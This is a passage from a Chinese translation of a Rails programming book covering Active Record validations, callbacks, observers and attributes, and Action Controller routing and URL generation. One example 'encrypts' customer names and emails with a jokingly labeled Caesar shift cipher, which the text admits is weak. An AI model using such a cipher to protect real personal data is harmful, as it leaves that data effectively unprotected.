| `:message` | 文本 | 默认是 `"can't be empty."` |
| `:on` |  | `:save`、`:create`或`:update` |

### `validates_uniqueness_of`

验证属性的唯一性。

```
validates_uniqueness_of attr...   [ options... ]
```

对于每个属性，它验证数据库中没有其他行在该给定列中具有相同的值。当模型对象来自现有的数据库行时，在执行检查时会忽略该行。可选的`:scope`参数可用于筛选测试行，仅测试那些在`:scope`列中具有与当前记录相同值的行。

以下代码确保用户名在整个数据库中是唯一的。


```ruby
class User < ActiveRecord::Base
  validates_uniqueness_of :name
end
```

以下代码确保用户名在某个组内是唯一的。

```ruby
class User < ActiveRecord::Base
  validates_uniqueness_of :name, :scope => "group_id"
end
```

**选项：**

- `:message` *文本*：默认值是 `"has already been taken."`
- `:on`：`:save`、`:create` 或 `:update`
- `:scope` *属性*：将检查限制在那些在该列中具有与正在检查的行相同值的行上。

## 17.5 回调

Active Record 控制模型对象的生命周期——它创建它们，监控它们被修改、保存和更新它们，并在它们被销毁时难过地看着。使用回调，Active Record 让我们的代码参与到这个监控过程中。我们可以在对象生命周期中的任何重要事件上编写被调用的代码。通过这些回调，我们可以执行复杂的验证，在列值进出数据库时进行映射，甚至可以阻止某些操作的完成。

我们已经看到过这个功能的实际应用。当我们在 Depot 应用程序中添加用户维护代码时，我们希望确保管理员不能从数据库中删除特殊的用户 Dave，因此我们向 User 类添加了以下回调。

```ruby
class User < ActiveRecord::Base
  before_destroy :dont_destroy_dave

  def dont_destroy_dave
    raise "Can't destroy dave" if name == 'dave'
  end
end
```

**图 17.4：Active Record 回调序列**

`before_destroy` 调用将 `dont_destroy_dave()` 方法注册为一个回调，该回调将在用户对象被销毁之前调用。如果有人试图销毁 Dave 用户（真不应该），此方法将引发异常，并且该行将不会被删除。

Active Record 定义了 20 个回调。其中 18 个形成 before/after 对，并围绕 Active Record 对象上的某些操作。例如，`before_destroy` 回调将在调用 `destroy()` 方法之前被调用，而 `after_destroy` 将在其后被调用。两个例外是 `after_find` 和 `after_initialize`，它们没有对应的 `before_xxx` 回调。（这两个回调在其他方面也不同，我们稍后会看到。）

图 17.4 显示了 18 个成对的回调是如何围绕模型对象的基本 `create`、`update` 和 `destroy` 操作的。也许令人惊讶的是，before 和 after 验证调用并不是严格嵌套的。

除了这 18 个调用之外，`after_find` 回调在任何 `find` 操作之后被调用，而 `after_initialize` 在 Active Record 模型对象创建之后被调用。

> ### 乔问……
>
> #### 为什么 `after_find` 和 `after_initialize` 很特殊？
>
> Rails 必须使用反射来确定是否有要调用的回调。在执行实际的数据库操作时，与数据库开销相比，执行此操作的成本通常并不显著。但是，一个数据库 `select` 语句可能返回数百行，并且每个回调都必须为每一行调用。这会显著减慢速度。Rails 团队认为在这种情况下性能比一致性更重要。

要让你的代码在回调期间执行，你需要编写一个处理程序并将其与相应的回调关联。

有两种基本方法来实现回调。

首先，你可以直接定义回调实例方法。例如，如果你想处理 *before save* 事件，你可以编写：

```ruby
class Order < ActiveRecord::Base
  # ..
  def before_save
    self.payment_due ||= Time.now + 30.days
  end
end
```

定义回调的第二种基本方法是声明处理程序。处理程序可以是一个方法或一个块。你使用以事件命名的类方法将处理程序与特定事件关联。要关联一个方法，将其声明为私有或受保护的，并将其名称作为符号指定给处理程序声明。要指定一个块，只需将其添加到声明之后。此块将模型对象作为参数接收。

```ruby
class Order < ActiveRecord::Base
  before_validation :normalize_credit_card_number

  after_create do |order|
    logger.info "Order #{order.id} created"
  end

  protected

  def normalize_credit_card_number
    self.cc_number.gsub!(/-\w/, '')
  end
end
```

处理程序也可以是一个包含要 `eval()` 的代码的字符串，但这已弃用。

你可以为同一个回调指定多个处理程序。除非一个处理程序返回 `false`（必须是实际值 `false`），否则它们通常会按照指定的顺序调用；在这种情况下，回调链会提前中断。

由于性能优化，为 `after_find` 和 `after_initialize` 事件定义回调的唯一方法是将它们定义为方法。如果你尝试使用第二种技术将它们声明为处理程序，它们将被静默忽略。

### 为记录添加时间戳

`before_create` 和 `before_update` 回调的一个潜在用途是为行添加时间戳。

```ruby
class Order < ActiveRecord::Base
  def before_create
    self.order_created ||= Time.now
  end

  def before_update
    self.order_modified = Time.now
  end
end
```

然而，Active Record 可以省去你做这件事的麻烦。如果你的数据库表有一个名为 `created_at` 或 `created_on` 的列，它将自动设置为行创建时间的时间戳。类似地，名为 `updated_at` 或 `updated_on` 的列将设置为最新修改的时间戳。默认情况下，这些时间戳将是本地时间；要使其为 UTC（也称为 GMT），请在代码中包含以下行（对于独立的 Active Record 应用程序内联，或在完整 Rails 应用程序的环境文件中）。

```ruby
ActiveRecord::Base.default_timezone = :utc
```

要完全禁用此行为，请使用：

```ruby
ActiveRecord::Base.record_timestamps = false
```

### 回调对象

作为在模型类中直接指定回调处理程序的一种变体，你可以创建单独的处理程序类，封装所有回调方法。这些处理程序可以在多个模型之间共享。处理程序类只是定义回调方法（`before_save()`、`after_create()` 等）的类。在 `app/models` 中为这些处理程序类创建源文件。

在使用处理程序的模型对象中，你创建此处理程序类的实例，并将该实例传递给各种回调声明。几个例子将使这一点更加清楚。

如果我们的应用程序在多个地方使用信用卡，我们可能希望在多个方法之间共享我们的 `normalize_credit_card_number()` 方法。为此，我们将该方法提取到自己的类中，并以其希望处理的事件命名。此方法将接收一个参数，即生成回调的模型对象。

```ruby
class CreditCardCallbacks
  # 标准化信用卡号
  def before_validation(model)
    model.cc_number.gsub!(/-\w/, '')
  end
end
```

现在，在我们的模型类中，我们可以安排调用这个共享的回调。

```ruby
class Order < ActiveRecord::Base
  before_validation CreditCardCallbacks.new
  # ...
end
```

```ruby
class Subscription < ActiveRecord::Base
  before_validation CreditCardCallbacks.new
  # ...
end
```

在这个例子中，处理程序类假设信用卡号存储在一个名为 `cc_number` 的模型属性中；`Order` 和 `Subscription` 都会有这个名称的属性。但我们可以将这个想法泛化，使处理程序类不太依赖于使用它的类的实现细节。

例如，我们可以创建一个通用的加密和解密处理程序。这可用于在将命名字段存储到数据库之前对其进行加密，并在读回行时对其进行解密。你可以将其作为回调处理程序包含在任何需要此功能的模型中。

处理程序需要在模型数据写入数据库之前加密⁴给定的模型属性集合。由于我们的应用程序需要处理这些属性的明文版本，因此它安排在保存完成后再次解密它们。当从数据库读取一行数据到模型对象时，也需要解密数据。这些需求意味着我们必须处理 `before_save`、`after_save` 和 `after_find` 事件。由于我们需要在保存后和查找新行时解密数据库行，我们可以通过将 `after_find()` 方法别名为 `after_save()` 来节省代码——同一个方法将拥有两个名称。

```ruby
class Encrypter
  # We're passed a list of attributes that should
  # be stored encrypted in the database
  def initialize(attrs_to_manage)
    @attrs_to_manage = attrs_to_manage
  end

  # Before saving or updating, encrypt the fields using the NSA and
  # DHS approved Shift Cipher
  def before_save(model)
    @attrs_to_manage.each do |field|
      model[field].tr!("a-z", "b-za")
    end
  end

  # After saving, decrypt them back
  def after_save(model)
    @attrs_to_manage.each do |field|
      model[field].tr!("b-za", "a-z")
    end
  end

  # Do the same after finding an existing record
  alias_method :after_find, :after_save
end
```

我们现在可以安排从订单模型内部调用 `Encrypter` 类。

```ruby
require "encrypter"

class Order < ActiveRecord::Base
  encrypter = Encrypter.new(:name, :email)

  before_save encrypter
  after_save  encrypter
  after_find encrypter

  protected

  def after_find
  end
end
```

⁴我们这里使用的示例是简单的加密——你可能需要在实际使用这个类之前加强它。

我们创建了一个新的 `Encrypter` 对象，并将其挂接到 `before_save`、`after_save` 和 `after_find` 事件。这样，在订单被保存之前，加密器中的 `before_save()` 方法将被调用，依此类推。

那么，我们为什么定义一个空的 `after_find()` 方法呢？记住我们说过，出于性能原因，`after_find` 和 `after_initialize` 会被特殊处理。这种特殊处理的后果之一是，除非 Active Record 在模型类中看到实际的 `after_find()` 方法，否则它不知道要调用 `after_find` 处理程序。我们必须定义一个空的占位符来使 `after_find` 处理得以发生。

这一切都很好，但是每个想要使用我们加密处理程序的模型类都需要包含大约八行代码，就像我们对 `Order` 类所做的那样。我们可以做得更好。我们将定义一个执行所有工作的辅助方法，并让该辅助方法对所有 Active Record 模型可用。为此，我们将把它添加到 `ActiveRecord::Base` 类中。

```ruby
class ActiveRecord::Base
  def self.encrypt(*attr_names)
    encrypter = Encrypter.new(attr_names)

    before_save encrypter
    after_save  encrypter
    after_find encrypter

    define_method(:after_find) { }
  end
end
```

有了这个，我们现在可以通过一次调用将加密添加到任何模型类的属性中。

```ruby
class Order < ActiveRecord::Base
  encrypt(:name, :email)
end
```

一个简单的驱动程序让我们可以进行实验。

```ruby
o = Order.new
o.name = "Dave Thomas"
o.address = "123 The Street"
o.email = "dave@pragprog.com"
o.save
puts o.name

o = Order.find(o.id)
puts o.name
```

在控制台上，我们看到客户的名字（明文）在模型对象中。

```text
ar> ruby encrypt.rb
Dave Thomas
Dave Thomas
```

然而，在数据库中，名字和电子邮件地址被我们工业强度的加密所掩盖。

```text
ar> mysql -urailsuser -prailspw railsdb
mysql> select * from orders;
+----+--------------+---------------------+--------------+---------+-------------+
| id | name         | email               | address      | pay_type | when_shipped |
+----+--------------+---------------------+--------------+---------+-------------+
|  1 | Dbwf Tipnbt  | ebwf@qsbhqsph.dpn   | 123 The Street|         | NULL        |
+----+--------------+---------------------+--------------+---------+-------------+
1 row in set (0.00 sec)
```

### 观察者

回调是一项很好的技术，但有时会导致模型类承担与模型本质无关的职责。例如，在第333页，我们创建了一个在创建订单时生成日志消息的回调。该功能实际上并不是基本 `Order` 类的一部分——我们把它放在那里是因为回调在那里执行。

Active Record 观察者克服了这个限制。观察者透明地将自己链接到模型类中，注册回调就好像它是模型的一部分，但不需要对模型本身进行任何更改。这是我们之前使用观察者编写的日志记录示例。

```ruby
class OrderObserver < ActiveRecord::Observer
  def after_save(an_order)
    an_order.logger.info("Order ##{an_order.id} created")
  end
end

OrderObserver.instance
```

当 `ActiveRecord::Observer` 被子类化时，它会查看新类的名称，去掉末尾的单词 Observer，并假定剩下的部分是被观察的模型类的名称。在我们的示例中，我们将观察者类命名为 `OrderObserver`，因此它自动将自己挂接到 `Order` 模型。

有时这个约定会失效。当它失效时，观察者类可以使用 `observe()` 方法显式列出它希望观察的模型。

```ruby
class AuditObserver < ActiveRecord::Observer
  observe Order, Payment, Refund

  def after_save(model)
    model.logger.info("#{model.class.name} #{model.id} created")
  end
end

AuditObserver.instance
```

在这两个示例中，我们都必须创建一个观察者的实例——仅仅定义观察者的类并不会启用该观察者。对于独立的 Active Record 应用程序，你需要在初始化期间的某个方便位置调用 `instance()` 方法。如果你正在编写 Rails 应用程序，你将在你的 `ApplicationController` 中使用 `observer` 指令，我们将在第346页看到。

按照惯例，观察者源文件位于 `app/models` 中。

在某种程度上，观察者为 Rails 带来了类似于 Java 等语言中第一代面向切面编程的许多好处。它们允许你将行为注入到模型类中，而无需更改这些类中的任何代码。

## 17.6 高级属性

当我们最初介绍 Active Record 时，我们说过 Active Record 对象具有与底层数据库表中的列相对应的属性。我们接着说这并不完全正确。以下是完整的故事。


当 Active Record 首次使用特定模型时，它会访问数据库并确定相应表的列集。由此它构建一组 `Column` 对象。这些对象可以使用 `columns()` 类方法访问，并且可以使用 `columns_hash()` 方法检索命名列的 `Column` 对象。`Column` 对象编码了数据库列的名称、类型和默认值。

当 Active Record 从数据库读取信息时，它会构造一个 SQL select 语句。执行时，select 语句返回零行或多行数据。Active Record 为这些行中的每一行构造一个新的模型对象，将行数据加载到一个哈希中，我们称之为属性数据。哈希中的每个条目对应于原始查询中的一个项。使用的键值与结果集中的项名称相同。

大多数时候，我们将使用标准的 Active Record 查找器方法从数据库检索数据。这些方法返回所选行的所有列。因此，每个返回的模型对象中的属性哈希将包含每个列的条目，其中键是列名，值是列数据。

```ruby
result = LineItem.find(:first)
p result.attributes

{"order_id"=>13,
 "quantity"=>1,
 "product_id"=>27,
 "id"=>34,
 "unit_price"=>29.95}
```

通常，我们不通过属性哈希访问此数据。相反，我们使用属性方法。

```ruby
result = LineItem.find(:first)
p result.quantity           #=>  1
p result.unit_price        #=>  29.95
```

但是，如果我们运行一个返回与表中列不对应的值的查询，会发生什么？例如，我们可能希望在应用程序中运行以下查询。

```sql
select quantity, quantity*unit_price from line_items;
```

如果我们手动在数据库上运行此查询，可能会看到如下内容。

```text
mysql> select quantity, quantity*unit_price from line_items;
```

| 数量 | 数量*单价 |
| --- | --- |
| 1 | 29.95 |
| 2 | 59.90 |
| 1 | 44.95 |

请注意，结果集的列标题反映了我们在 select 语句中使用的术语。Active Record 在填充属性哈希时会使用这些列标题。我们可以使用 Active Record 的 `find_by_sql()` 方法运行相同的查询，并查看生成的属性哈希。

```ruby
result = LineItem.find_by_sql("select quantity, quantity*unit_price " +
                                  "from line_items")

p result[0].attributes
```

输出显示列标题已被用作属性哈希中的键。

```ruby
{"quantity*unit_price"=>"29.95",
 "quantity"=>1}
```

请注意，计算列的值是一个字符串。Active Record 知道我们表中列的数据类型，但许多数据库不会返回计算列的类型信息。在本例中，我们使用的是 MySQL，它不提供类型信息，因此 Active Record 会将值保留为字符串。如果我们使用的是 Oracle，由于 OCI 接口可以提取结果集中所有列的类型信息，我们会得到一个 Float 类型的值。

使用键 `quantity*price` 来访问计算属性并不特别方便，因此我们通常会使用 `as` 限定符在结果集中重命名列。

```ruby
result = LineItem.find_by_sql("select quantity,
                                 quantity*unit_price as total_price " +
                                 "  from line_items")

p result[0].attributes
```

这会产生：

```ruby
{"total_price"=>"29.95",
 "quantity"=>1}
```

属性 `total_price` 更易于处理。

```ruby
result.each do |line_item|
  puts "Line item #{line_item.id}:  #{line_item.total_price}"
end
```

但请记住，这些计算列的值将作为字符串存储在属性哈希中。如果你尝试类似这样的操作：

```ruby
TAX_RATE = 0.07
```

```ruby
### ...
```

```ruby
sales_tax = line_item.total_price * TAX_RATE
```

可能会感到意外，上一个示例中的代码会将 `sales_tax` 设置为空字符串。`total_price` 的值是一个字符串，而字符串的 `*` 运算符会重复其内容。由于 `TAX_RATE` 小于 1，内容被重复零次，结果为空字符串。

并非无法挽救！我们可以重写默认的 Active Record 属性访问器方法，并为我们的计算字段执行所需的类型转换。

```ruby
class LineItem < ActiveRecord::Base
  def total_price
    Float(read_attribute("total_price"))
  end
end
```

请注意，我们使用 `read_attribute()` 方法访问了属性的内部值，而不是直接访问属性哈希。`read_attribute()` 方法了解数据库列的类型（包括包含序列化 Ruby 数据的列），并在需要时执行类型转换。这在我们当前的示例中不是特别有用，但当我们研究提供外观列的方法时会变得更加重要。

### 外观列

有时我们使用的模式中，某些列并非以最方便的格式存储。由于某种原因（可能是因为我们使用的是遗留数据库，或者是因为其他应用程序依赖于这种格式），我们无法直接更改模式。相反，我们的应用程序只能以某种方式来处理它。如果我们能以某种方式设置一个外观，并假装列数据就是我们想要的样子，那将会很有帮助。

事实证明，我们可以通过重写 Active Record 提供的默认属性访问器方法来实现这一点。例如，让我们想象一下我们的应用程序使用了一个遗留的 `product_data` 表——一个非常古老的表，产品尺寸以腕尺⁵为单位存储。在我们的应用程序中，我们更愿意使用英寸⁶，因此让我们定义一些执行必要转换的访问器方法。

> ⁵ *腕尺*定义为从肘部到最长手指尖的距离。由于这显然是主观的，埃及人根据当时统治的国王制定了皇家腕尺的标准。他们甚至有一个标准机构，花岗岩上测量并标记了主腕尺（http://www.ncsli.org/misc/cubit.cfm）。
>
> ⁶ 当然，英寸也是一种遗留的度量单位，但让我们不在这里争论这一点。

```ruby
class ProductData < ActiveRecord::Base
  CUBITS_TO_INCHES = 18

  def length
    read_attribute("length") * CUBITS_TO_INCHES
  end

  def length=(inches)
    write_attribute("length", Float(inches) / CUBITS_TO_INCHES)
  end
end
```

## 17.7 其他事项

本节包含一些与 Active Record 相关的各种主题，它们似乎不太适合放在其他任何地方。

### 对象标识

模型对象重写了 Ruby 的 `id()` 和 `hash()` 方法，以引用模型的主键。这意味着具有有效 id 的模型对象可以用作哈希键。这也意味着未保存的模型对象不能可靠地用作哈希键（因为它们还没有有效的 id）。

如果两个模型对象是同一类的实例并且具有相同的主键，则认为它们相等（使用 `==`）。这意味着未保存的模型对象即使具有不同的属性数据也可能比较为相等。如果你发现自己正在比较未保存的模型对象（这不是一个特别频繁的操作），你可能需要重写 `==` 方法。

### 使用原始连接

你可以使用底层的 Active Record 连接适配器来执行 SQL 语句。这对于那些（罕见的）需要在 Active Record 模型类上下文之外与数据库交互的情况非常有用。

在最底层，你可以调用 `execute()` 来运行一个（依赖于数据库的）SQL 语句。返回值取决于所使用的数据库适配器。例如，对于 MySQL，它返回一个 `Mysql::Result` 对象。如果你真的需要在这个底层工作，你可能需要从代码本身阅读此调用的详细信息。幸运的是，你不必这样做，因为数据库适配器层提供了更高级别的抽象。

`select_all()` 方法执行一个查询，并返回一个对应于结果集的属性哈希数组。

```ruby
res = Order.connection.select_all("select id, "+
    "      quantity*unit_price as total " +
    "      from line_items")

p res
```

这会产生类似这样的结果：

```ruby
[{"total"=>"29.95", "id"=>"91"},
 {"total"=>"59.90", "id"=>"92"},
 {"total"=>"44.95", "id"=>"93"}]
```

`select_one()` 方法返回一个单独的哈希，该哈希派生自结果集的第一行。

请查看 `AbstractAdapter` 的 RDoc 以获取可用的底层连接方法的完整列表。

### 丢失的 ID 案例

当你使用自己的 finder SQL 将行检索到 Active Record 对象中时，存在一个隐藏的危险。

Active Record 使用行的 `id` 列来跟踪数据所属的位置。如果你在使用 `find_by_sql()` 时没有随列数据一起获取 id，你将无法将结果存储回数据库。不幸的是，Active Record 仍然会尝试并静默失败。例如，以下代码不会更新数据库。

```ruby
result = LineItem.find_by_sql("select quantity from line_items")
result.each do |li|
  li.quantity += 2
  li.save
end
```

也许有一天 Active Record 会检测到 id 缺失的事实，并在这些情况下抛出异常。与此同时，道理很清楚：如果你打算将 Active Record 对象保存回数据库，请始终获取主键列。事实上，除非你有特殊的理由不这样做，否则在自定义查询中执行 `select *` 可能是最安全的做法。

### 魔术列名

在最后两章的过程中，我们提到了许多对 Active Record 具有特殊意义的列名。以下是摘要。

- `created_at`、`created_on`、`updated_at`、`updated_on`：自动更新为行创建或最后更新的时间戳（`_at` 形式）或日期（`_on` 形式）（第 334 页）。
- `lock_version`：如果表包含 `lock_version`，Rails 将跟踪行版本号并执行乐观锁定（第 274 页）。
- `type`：由单表继承用于跟踪行的类型（第 318 页）。
- `id`：表的主键列的默认名称（第 257 页）。
- `xxx_id`：引用名为 `xxx` 复数形式的表的外键的默认名称（第 277 页）。
- `xxx_count`：为子表 `xxx` 维护计数器缓存（第 298 页）。
- `position`：如果使用 `acts_as_list`，则此行在列表中的位置（第 307 页）。
- `parent_id`：如果使用 `acts_as_tree`，则引用此行父项的 id（第 310 页）。

## 第18章 Action Controller 与 Rails

Action Pack 是 Rails 应用的核心。它由两个 Ruby 模块组成：`ActionController` 和 `ActionView`。它们共同为处理传入请求和生成传出响应提供支持。在本章中，我们将探讨 `ActionController` 及其在 Rails 中的工作机制。下一章我们将介绍 `ActionView`。

在讨论 Active Record 时，我们将其视为一个独立的库；你可以在非 Web 的 Ruby 应用中使用 Active Record。Action Pack 则不同。虽然可以直接将其作为一个框架使用，但你可能不会这么做。相反，你会利用 Rails 提供的紧密集成。诸如 Action Controller、Action View 和 Active Record 等组件负责处理请求，而 Rails 环境则将它们整合成一个连贯（且易于使用）的整体。因此，我们将在 Rails 的上下文中描述 Action Controller。让我们首先看看 Rails 应用的整体架构。

## 18.1 上下文与依赖关系

Rails 会自动处理许多配置依赖；作为开发者，你通常可以依赖它来正确完成这些工作。例如，如果有一个针对 `http://my.url/store/list` 的请求到达，Rails 将执行以下操作：

1. 在 `app/controllers` 目录中加载 `store_controller.rb` 文件。（此加载仅在生产环境中发生一次。）
2. 实例化一个 `StoreController` 类的对象。
3. 在 `app/helpers` 中查找名为 `store_helper.rb` 的文件。如果找到，则加载它，并将 `StoreHelper` 模块混入控制器对象。
4. 在 `app/models` 目录中查找 `store.rb` 文件中的模型，如果找到则加载它。

有时你需要扩展这种默认行为。例如，你可能有一个被多个控制器使用的辅助模块，或者你使用了多个不同的模型，需要告诉控制器预加载它们所有。你可以通过在控制器类内部使用声明来完成此操作。`model` 声明列出了此控制器使用的模型名称，而 `observer` 声明则为此请求设置 Active Record 观察者（在第 338 页描述）。

```ruby
class StoreController < ApplicationController
    model :cart, :line_item
    observer :stock_control_observer

    # ...
end
```

你可以使用 `helper` 声明将新的辅助模块添加到混合中。这在第 19.4 节“辅助模块”（第 406 页）中有描述。

## 18.2 基础

从最简单的层面来看，Web 应用接受来自浏览器的传入请求，处理它，然后发送响应。

一个立刻想到的问题是，应用如何知道对传入请求做什么？一个购物车应用会收到显示目录、将商品添加到购物车、结账等请求。它是如何将这些请求路由到相应的代码的呢？

Rails 将此信息编码在请求 URL 中，并使用一个称为“路由”的子系统来确定应对该请求执行什么操作。实际的过程非常灵活，但最终 Rails 会确定处理此特定请求的控制器名称，以及任何其他请求参数的列表。通常，其中一个附加参数标识要调用的目标控制器中的动作。

例如，传入我们购物车应用的请求可能看起来像 `http://my.shop.com/store/show_product/123`。应用将其解释为请求调用 `StoreController` 类中的 `show_product()` 方法，请求它显示 id 为 123 的商品详情。

你不必使用 controller/action/id 风格的 URL。一个博客应用可以配置为将文章日期编码在请求 URL 中。例如，使用 `http://my.blog.com/blog/2005/07/04` 调用它，它可能会调用 Articles 控制器的 `display()` 动作，以显示 2005 年 7 月 4 日的文章。我们稍后将描述这种神奇的映射是如何发生的。

一旦确定了控制器，就会创建一个新实例并调用其 `process()` 方法，传入请求详情和一个响应对象。然后控制器调用一个与动作同名的方法（或者如果找不到以动作命名的方法，则调用名为 `method_missing` 的方法）。（我们首次在第 37 页的图 4.3 中看到了这一点。）这个动作方法协调请求的处理。如果动作方法在没有明确渲染任何内容的情况下返回，控制器会尝试渲染一个以该动作命名的模板。如果控制器找不到要调用的动作方法，它会立即尝试渲染模板——你不需要动作方法来显示模板。

## 18.3 路由请求

到目前为止，本书中我们还没有担心 Rails 如何将类似 `store/add_to_cart/123` 的请求映射到特定的控制器和动作。我们现在来深入探讨一下。

`rails` 命令会生成应用的初始文件集。其中一个文件是 `config/routes.rb`。它包含该应用的路由信息。如果你查看该文件的默认内容（忽略注释），你会看到以下内容：

```ruby
ActionController::Routing::Routes.draw do |map|
  map.connect ':controller/service.wsdl', :action => 'wsdl'
  map.connect ':controller/:action/:id'
end
```


路由组件绘制了一张映射图，让 Rails 将外部 URL 连接到应用的内部。每个 `map.connect` 声明指定了一条连接外部 URL 和内部程序代码的路由。

让我们看看第二个 `map.connect` 行。字符串 `':controller/:action/:id'` 充当一个模式，与请求 URL 的路径部分进行匹配。在这种情况下，该模式将匹配任何在路径中包含三个部分的 URL。（这实际上不完全正确，但我们稍后会澄清。）第一个部分将被分配给参数 `:controller`，第二个给 `:action`，第三个给 `:id`。

向这个模式提供路径为 `store/add_to_cart/123` 的 URL，你将得到以下参数：

```ruby
@params = { :controller => 'store',
            :action     => 'add_to_cart',
            :id         => 123 }
```

基于此，Rails 将调用 `store` 控制器中的 `add_to_cart()` 方法。`:id` 参数的值将为 123。

`map.connect` 接受的模式简单而强大。

- 组件由正斜杠字符分隔。模式中的每个组件与 URL 中的一个或多个部分匹配。模式中的组件按顺序与 URL 匹配。
- 形式为 `:name` 的模式组件将参数 `name` 设置为 URL 对应位置中的任何值。
- 形式为 `*name` 的模式组件接受传入 URL 中所有剩余的部分。参数 `name` 将引用一个包含其值的数组。由于它吸收了 URL 的所有剩余部分，因此 `*name` 必须出现在模式的末尾。
- 作为模式组件的任何其他内容都精确匹配 URL 对应位置中的自身。例如，包含 `store/:controller/buy/:id` 的模式将在 URL 的开头包含文本 `store` 且第三部分为文本 `buy` 时匹配。

`map.connect` 接受额外的参数。

### `:defaults => { :name => "value", ...}`

为模式中的命名参数设置默认值。具有默认值的模式尾部组件可以在传入 URL 中省略，它们的默认值将在设置参数时使用。如果未出现在 URL 中，且默认值为 `nil`，则该参数不会添加到 `params` 哈希中。如果你没有特别指定，路由会自动提供默认值。

```ruby
defaults => { :action => "index", :id => nil }
```

### `:requirements => { :name => /regexp/, ...}`

指定给定的组件（如果出现在 URL 中）必须各自匹配指定的正则表达式，整个映射才会匹配。换句话说，如果任何组件不匹配，此映射将不会被使用。

### `:name => value`

为组件 `:name` 设置默认值。与使用 `:defaults` 设置的值不同，名称本身不必出现在模式中。这允许你向传入请求添加任意参数值。该值通常是字符串或 `nil`。

## URL生成

路由负责处理传入的 URL，并将其解码为一组参数，供 Rails 用来分派到对应的控制器和操作（可能还会设置额外的参数）。但这只是故事的一半。我们的应用程序还需要创建指向自身的 URL。例如，每次显示一个表单时，该表单都需要链接回一个控制器和操作。但应用程序代码并不一定知道编码这些信息的 URL 格式；它所看到的只是路由工作完成后接收到的参数。

我们可以将所有 URL 硬编码到应用程序中，但在多处散布关于请求格式的知识会使我们的代码变得更加脆弱。这违反了 DRY 原则；<sup>1</sup> 一旦应用程序的位置或 URL 格式发生变更，我们就必须修改所有这些字符串。

幸运的是，我们无需为此担心，因为 Rails 也使用 `url_for()` 方法（以及许多基于此方法的高级便捷方法）抽象了 URL 的生成过程。为了解释这一点，让我们回顾一个简单的映射。

```ruby
map.connect ":controller/:action/:id"
```

`url_for()` 方法通过将其参数应用到映射来生成 URL。它在控制器和视图中都有效。让我们尝试一下。

```ruby
@link = url_for :controller => "store", :action => "display", :id => 123
```

这段代码会将 `@link` 设置为类似以下的内容：

```text
http://pragprog.com/store/display/123
```

`url_for()` 方法接收我们的参数，并将它们映射成一个与我们自身路由兼容的请求。如果用户选择了一个包含此 URL 的链接，它将调用我们应用程序中预期的操作。

`url_for()` 背后的重写机制相当聪明。它了解默认参数，并会生成满足你需求的最小 URL。让我们看一些例子。

```ruby
### 没有指定 action 和 id，重写将使用默认值
url_for(:controller => "store")
  #=> http://pragprog.com/store

### 如果缺少 action，重写会在 URL 中
### 插入默认值（index）
url_for(:controller => "store", :id => 123)
  #=> http://pragprog.com/store/index/123

### id 是可选的
url_for(:controller => "store", :action => "list")
  #=> http://pragprog.com/store/list

### 一个完整的请求
url_for(:controller => "store", :action => "list", :id => 123)
  #=> http://pragprog.com/store/list/123

### 额外的参数会添加到 URL 的末尾
url_for(:controller => "store", :action => "list",
        :id => 123, :extra => "wibble")
  #=> http://rubygarden.org/store/list/123?extra=wibble
```

默认机制在可能的情况下会使用来自当前请求的值。最常见的情况是，当省略 `:controller` 参数时，用它来填充当前控制器的名称。假设以下示例是在处理对 `store` 控制器的请求时运行的。注意它是如何在 URL 中填充控制器名称的。

```ruby
url_for(:action => "status")
  #=> http://pragprog.com/store/status
```

URL 生成同样适用于更复杂的路由。例如，我们博客的路由包含以下映射。

```ruby
map.connect "blog/:year/:month/:day",
            :controller => "blog",
            :action => "show_date",
            :requirements => { :year  => /(19|20)\d\d/,
                               :month => /[01]?\d/,
                               :day   => /[0-3]?\d/ },
            :day   => nil,    # 可选
            :month => nil     # 可选

map.connect "blog/show/:id",
            :controller => "blog",
            :action     => "show",
            :id         => /\d+/  # 必须是数字

map.connect "blog/:controller/:action/:id"
```

假设传入的请求是 `http://pragprog.com/blog/2005/4/15`。根据第一条规则，它将被映射到 `Blog` 控制器的 `show_date` 操作。让我们看看在这种情况下，各种 `url_for()` 调用会生成什么。

如果我们请求一个不同日期的 URL，映射调用将使用传入请求的值作为默认值，仅更改 `day` 参数。

```ruby
url_for(:day => "25")
#=> http://pragprog.com/blog/2005/4/25
```

现在让我们看看，如果我们只给它一个年份会发生什么。

```ruby
url_for(:year => "2004")
#=> http://pragprog.com/blog/2004
```

这非常聪明。映射代码假定 URL 代表一个值的层级结构。<sup>2</sup> 一旦我们在这个层级结构的某一层级更改了某个值，它就不再为更低的层级提供默认值。这是合理的：更低层级的参数实际上只在更高层级参数的上下文中才有意义，因此更改它们使其偏离默认值会使更低层级的参数失效。在这个例子中，通过覆盖 `year`，我们隐式地告诉映射代码我们不需要 `month` 和 `day`。

还需注意，映射代码选择了第一个能够合理用于渲染 URL 的规则。让我们看看，如果给它一个无法匹配第一条基于日期的规则的值，会发生什么。

```ruby
url_for(:action => "edit", :id => 123)
#=> http://pragprog.com/blog/blog/edit/123
```

这里的第一个 `blog` 是固定文本，第二个 `blog` 是控制器的名称，而 `edit` 是操作名称——映射代码应用了第三条规则。如果我们指定了 `show` 操作，它会使用第二条映射。

```ruby
url_for(:action => "show", :id => 123)
#=> http://pragprog.com/blog/show/123
```

> <sup>1</sup> DRY 代表 *Don't Repeat Yourself*（不要重复自己），这是《程序员修炼之道》[HT00]中创造的一个术语。
>
> <sup>2</sup> 这在 Web 上是很自然的，静态内容存储在文件夹（目录）中，而这些文件夹本身又可能在其他文件夹内，以此类推。

大多数时候，映射代码的行为正如你所期望的。然而，它有时会显得过于“智能”。假设你想生成查看 2005 年博客文章的 URL。你可以写：

```ruby
url_for(:year => "2005")
```

你可能会惊讶地发现，映射代码输出的 URL 中还包含了月份和日期。

```text
#=> http://pragprog.com/blog/2005/4/15
```

你提供的年份值与当前请求中的年份相同。由于这个参数没有变化，映射代码会继续使用月份和日期的默认值来补全 URL 的其余部分。要解决这个问题，可以将月份参数设置为 `nil`。

```ruby
url_for(:year => "2005", :month => nil)
   #=> http://pragprog.com/blog/2005
```

一般来说，如果你想生成一个部分 URL，最好将第一个未使用的参数设置为 `nil`；这样做可以防止来自传入请求的参数泄漏到传出的 URL 中。

有时你需要做相反的事情：更改层次结构中更高层级的参数值，并强制路由代码继续使用更低层级的值。在我们的例子中，这就像指定了一个不同的年份，并让它在 URL 中添加现有的默认月份和日期值。为此，我们可以“欺骗”路由代码——我们使用 `:overwrite_params` 选项来告诉它，原始请求参数中包含了我们想要使用的新年份。因为它认为年份没有变化，所以会继续使用其余的默认值。

```ruby
url_for(:year => "2002")
   #=> http://pragprog.com/blog/2002

url_for(:overwrite_params => {:year => "2002"})
